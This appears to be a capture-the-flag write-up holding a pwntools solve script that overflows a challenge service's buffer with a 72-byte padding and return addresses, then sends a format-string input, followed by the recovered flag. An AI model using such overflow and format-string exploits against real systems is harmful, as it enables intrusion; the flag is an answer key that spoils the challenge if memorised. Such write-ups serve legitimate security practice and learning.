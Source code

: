
# solve.py

```py
from pwn import *

r = remote('gold.b01le.rs', 4008)

r.recv()

p = b'A' * 72
p += p64(0x401216)
p += p64(0x40101a)
p += p64(0x40131F)

r.sendline(p)

r.recvuntil(b'song? ')
r.sendline(f'%5$s'.encode())

print(r.recv())
```
![](./1.png)

# FLAG

**`bctf{dr1ving_a_n3w_maser@t1_d0wn_@_d3ad_3nd_str33t_eb30c235cde76705}`**

